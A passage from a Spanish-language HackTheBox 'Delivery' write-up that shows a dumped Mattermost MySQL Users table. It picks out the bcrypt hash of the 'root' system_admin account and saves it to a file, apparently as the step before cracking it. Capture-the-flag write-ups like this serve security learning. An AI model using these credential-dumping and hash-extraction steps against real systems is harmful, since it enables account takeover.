 ![308bash_delivery_mysql_Users_table](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/delivery/308bash_delivery_mysql_Users_table.png)

Jmmm, un montón de usuarios y al haber tantos campos, pues se ve horrible todo :o Pero más o menos el formato de la tabla es así:

```mysql
| Id                         | CreateAt      | UpdateAt      | DeleteAt | Username                         | Password                                                     | AuthData | AuthService | Email                   | EmailVerified | Nickname | FirstName          | LastName | Position | Roles                    | AllowMarketing | Props | NotifyProps                                                                                                                                                                  | LastPasswordUpdate | LastPictureUpdate | FailedAttempts | Locale | Timezone                                                                                 | MfaActive | MfaSecret |   
| 16w657nsqpga5ci965u5gjks9w | 1621140348792 | 1621140348792 |        0 | hola                             | $2a$10$HMg19A65aU4TPSj2K3pbCuOYrc0zNh45URBKuNAX1f6AzXTnulB9m | NULL     |             | hola@lanz.com           |             0 |          |                    |          |          | system_user              |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1621140348792 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
...
```

Donde en la contraseña vemos un hash tipo **bcrypt** según [la wiki](https://hashcat.net/wiki/doku.php?id=example_hashes) de ejemplos de **hashcat**.

![308google_wiki_hashcat_bcrypt](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/delivery/308google_wiki_hashcat_bcrypt.png)

Claramente no voy a jugar con un usuario que yo cree :P, pero si con uno interesante que vi:

```mysql
...
| dijg7mcf4tf3xrgxi5ntqdefma | 1608992692294 | 1609157893370 |        0 | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO | NULL     |             | root@delivery.htb       |             1 |          |                    |          |          | system_admin system_user |              1 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609157893370 |                 0 |              0 | en     | {"automaticTimezone":"Africa/Abidjan","manualTimezone":"","useAutomaticTimezone":"true"} |         0 |           |
...
```

Dos cositas interesantes de este usuario:

* Pos que se llama **root** e.e
* Pero más importante, en la columna **Roles**, tiene asignados: ***system_admin*** y **system_user**. ¿Cuál es el importante y porque es relevante este usuario? 

Listones, tomemos ese *hash* y guardémoslo en un archivo:

```bash
ゝ cat hash_root_mattermost
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```
